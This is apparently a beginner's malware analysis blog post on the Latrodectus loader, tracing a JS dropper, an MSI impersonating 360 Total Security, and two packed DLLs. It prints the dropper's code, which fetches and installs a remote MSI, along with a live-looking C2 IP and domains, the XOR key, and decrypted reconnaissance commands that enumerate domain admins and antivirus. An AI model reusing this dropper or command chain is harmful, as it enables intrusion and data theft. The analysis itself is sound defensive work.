

### ArachnoAnalysis: Spinning Webs with Latrodectus - A Novice's Dive into Malware Mysteries


## Table of contents
- [Intruduction](#intruduction)
- [Stage 0 - The JS](#stage-0---the-js)
- [Stage 1 - The MSI package](#stage-1---the-msi-package)
- [Stage 2 - The DLL](#stage-2---the-dll)
    - [Unpacking the "yhDm^" section](#unpacking-the-yhdm-section)
- [Stage 3 - Another DLL](#stage-3---another-dll)


## Intruduction


## Stage 0 - The JS

Stage 0 is appearing as an obfuscated JS file `<filename>.js` which contains the code that attempts to download an MSI package from a specified URL `http://45.95.11.217/ad.msi`. After downloading the MSI package, the JS file is using the `ActiveXObject` to iternact with Windows Installer and installs the product using the `InstallProduct()` method. 

The variable `a` employs an Immediately Invoked Function Expression (IIFE), encapsulating a function designed to locate and execute a script embedded within the current script file `WScript.ScriptFullName`. It utilizes the `Scripting.FileSystemObject` to navigate the file system, particularly for reading the lines of the script file. Within this context, the `e()` function iterates through the script file, identifying and extracting embedded script content, storing it in `d`. Subsequently, the `h()` function attempts to execute the extracted script content, provided it's not empty. The resulting object includes a method `j`, intended to orchestrate the entire process of discovering and executing the embedded script.

The `a.j()` invocation initiates the execution sequence by calling the `j` method of the `a` object. This method, in turn, endeavors to execute the embedded script discovered within the current script file.

```js
function installFromURL() {
        var installer;
        var msiPath;
        try {
            installer = new ActiveXObject("WindowsInstaller.Installer");
            installer.UILevel = 2;
            msiPath = "http://<snip>/<filename>.msi";
            installer.InstallProduct(msiPath);
        } catch (e) {
            WScript.Echo("failed: " + e.message);
        }
    }
    installFromURL();
    
    var a = (function() {
        var b = new ActiveXObject("Scripting.FileSystemObject"),
            c = WScript.ScriptFullName,
            d = "";
    
        function e() {
            if (!b.FileExists(c)) return;
    
            var f = b.OpenTextFile(c, 1);
            while (!f.AtEndOfStream) {
                var g = f.ReadLine();
                if (g.slice(0, 4) === "") d += g.substr(4) + "\n";
            }
            f.Close();
        }
    
        function h() {
            if (d !== "") {
                var i = new Function(d);
                i();
            }
        }
 
        return {
            j: function() {
                try {
                    e();
                    h();
                } catch (k) {}
    
            }
    
        };
    })();
    a.j();
```

## Stage 1 - The MSI package
An MSI package itself cannot be considered malicious because many products use it for their installation processes. However, in the exciting realm of malware analysis, we have to give it a chance to show its malicious side, RIGHT??? RIGHT... Let's dive in and see what mischief awaits! 

In order to analyze the MSI package, we have to install a specific 'unpacker' and see what the package contains. I chose to use the [lessmsi](https://github.com/activescott/lessmsi) tool for this purpose.

Let's start by diving deep into the package extractions, where we can find that a suspicious DLL is being extracted from the package named `360total.dll`.


Very interesting finding, BUT let's proceed with the package investigation and explore the tables.

In the property table, we can find information regarding the package creator, such as the manufacturer, description, and product name. Based on the name `360 Total`, the entire setup seems to be an impersonation attempt of the 360 Total security solution AV.


A very interesting table is the `CustomAction`, where an actor can insert their own custom actions or commands into the package flow. Here, they could potentially execute the extracted `360total.dll`—which is likely malicious—.

* `C:/Windows/System32/rundll32.exe [LocalAppDataFolder]sharepoint\360total.dll, homq`

The above command is executing the DLL with the `homq` for entry point, which will be executed.


Note that `rundll32.exe` is a legitimate executable that exists on Windows. However, like other similar executables, it can be used in a malicious manner. e.g. [LOLBAS Rundll32](https://lolbas-project.github.io/lolbas/Binaries/Rundll32/)


Finally, it appears that the entire packaging process was carried out using Caphyon Advanced Installer.



## Stage 2 - The DLL

Let's proceed by extracting `360total.dll` and begin analyzing it. We'll open it using the `Detected It Easy` tool, which is already installed on FlareVM. \
Based on the `DIE` tool results we can clearly see that our file is a `Linker: Microsoft Linker(14.0, Visual Studio 2015 14.0*)[DLL]`.


Further exploring `DIE` features, we can uncover the DLL exports, which essentially are the available entry points, or functions, that can be utilized during execution. The available entry points are:
- homq
- CreateObject
- RegisterInstallTime

The `homq` entry point seems very familiar, as we identified a rundll32.exe command executed within the MSI Installer.


Alright, let's have a bit more fun and investigate the available section headers of the DLL. Among the 7 available section headers, the one that particularly intrigues me is `"yhDm^"`, which appears to be packed and likely encrypted. 

Using strings at packed section we can see that the section is probably encrypted.


### Unpacking the "yhDm^" section

Now that we've discovered that the "yhDm^" section is packed and encrypted, let's open Ghidra and dive into some nasty code.

Within the `entry()` function, there's a call to `FUN_180070044`, and the code exhibits various forms of obfuscation, such as variable reassignment and string concatenation. However, there's a specific section of code where the `DAT_180175000` is decrypted using XOR functionality. Before delving into that part, it's important to note that at the beginning of the mentioned function, there are some variables with unusual hexadecimal values, indicating possible strings obfuscation.


In the following image, we can observe that `DAT_180175000` corresponds to the packed section `"yhDm^"`. The code loads the encrypted data from this specific data block and decrypts it using XOR. Since the data is encrypted we have to decrypt the specific data block with the key that encrypts the data.


After saving the encrypted block to a file in hexadecimal format, it's time for the CyberChef playground. Decoding the hex data reveals the absence of an MZ string at the beginning, indicating it's not a `DOS MZ executable`. However, at the end of the data, there's a strange repetitive string, `S5XlpOdyMN(U)RxRw`, which serves as the actual XOR key. This occurs because when XORing something containing NULL bytes, the XOR key is displayed instead.


**ITS TIME FOR MZ!** Using the XOR key, we can decrypt the data, save it, and start investigating the new findings.


## Stage 3 - Another DLL

**REPEAT THE SAME STEPS!** Our new journey starts by opening the unpacked file with the `DIE` tool and beginning our investigation. Interestingly, the file yields the same results as the first DLL: `Linker: Microsoft Linker(14.0, Visual Studio 2015 14.0*)[DLL]`.


Same results, but even juicier DLL entry points! This DLL contains four specific entry points, and it appears that each entry point exhibits different behavior. The available entry points are:
- extra
- follower
- run
- scub


The same entry points can be found when the DLL is decompiled, possibly because the malware author forgot to delete their comments.


**MORE DIGGING!** As we delve into the decompiled code, we uncover another XOR functionality following the same pattern as the first one we found. It decrypts data, presumably for use in malicious actions by the malware.


The `DECRYPT_DATA` function is called within the `FUN_180003868` function, with the `DAT_18000fa00` data block as a parameter, indicating that the data in this block are encrypted. In the listing menu, we can observe numerous data blocks `(DAT_*)` containing encrypted data, ranging from `180010467` to `18000f000`.


However, we can delve deeper by searching for reference calls to the `DECRYPT_DATA` function. Let's decrypt some data by extracting the encrypted data within the specified range and using the author's XOR code for decryption.

<details>
<summary>Decrypted Data</summary>
<pre>
/c ipconfig /all
C:\Windows\System32\cmd.exe
/c systeminfo
C:\Windows\System32\cmd.exe
/c nltest /domain_trusts
C:\Windows\System32\cmd.exe
/c net view /all /domain
/c nltest /domain_trusts /all_trusts
C:\Windows\System32\cmd.exe
C:\Windows\System32\cmd.exe
/c net view /all
C:\Windows\System32\cmd.exe
&ipconfig=
/c net group "Domain Admins" /domain
C:\Windows\System32\cmd.exe
/Node:localhost /Namespace:\\root\SecurityCenter2 Path AntiVirusProduct Get * /Format:List
C:\Windows\System32\wbem\wmic.exe
/c net config workstation
C:\Windows\System32\cmd.exe
/c wmic.exe /node:localhost /namespace:\\root\SecurityCenter2 path AntiVirusProduct Get DisplayName | findstr /V /B /C:displayName || echo No Antivirus installed
C:\Windows\System32\cmd.exe
/c whoami /groups
C:\Windows\System32\cmd.exe
&systeminfo=
&domain_trusts=
&domain_trusts_all=
&net_view_all_domain=
&net_view_all=
&net_group=
&wmic=
&net_config_ws=
&net_wmic_av=
&whoami_group=
{
"pid": 
"%d",
"proc": 
"%s",
"subproc": [
]
}
&proclist=[
{
"pid": 
"%d",
"proc": 
"%s",
"subproc": [
]
}
&desklinks=[
*.*
"%s"
]
Update_%x
Custom_update
.dll
.exe
Updater
"%s"

rundll32.exe
"%s", %s %s
runnung
:wtfbbq
%d
%s%s
files/bp.dat
%s\%d.dll
%d.dat
%s\%s
init -zzzz="%s\%s"
front
/files/
Facial
.exe
Content-Type: application/x-www-form-urlencoded
POST
GET
curl/7.88.1
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tob 1.1)
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tob 1.1)
CLEARURL
URLS
COMMAND
ERROR
eNIHaXC815vAqddR21qsuD35eJFL7CnSOLI9vUBdcb5RPcS0h6
counter=%d&type=%d&guid=%s&os=%d&arch=%d&username=%s&group=%lu&ver=%d.%d&up=%d&direction=%s
counter=%d&type=%d&guid=%s&os=%d&arch=%d&username=%s&group=%lu&ver=%d.%d&up=%d&direction=%s
counter=%d&type=%d&guid=%s&os=%d&arch=%d&username=%s&group=%lu&ver=%d.%d&up=%d&direction=%s
C:\WINDOWS\SYSTEM32\rundll32.exe %s,%s
C:\WINDOWS\SYSTEM32\rundll32.exe %s
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Tob 1.1)
!html>
!DOCTYPE
%s%d.dll
12345
&stiller=
%s%d.exe
LogonTrigger
%x%x
TimeTrigger
PT0H%02dM
%04d-%02d-%02dT%02d:%02d:%02d
&mac=
%02x
:%02x
PT0S
;
&computername=%s
&domain=%s
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/
\*.dll
%04X%04X%04X%04X%08X%04X
%04X%04X%04X%04X%08X%04X
\Registry\Machine\
https://jarinamaers.shop/live/
https://wrankaget.site/live/
AppData
Desktop
Startup
Personal
Local AppData
</pre>
<details>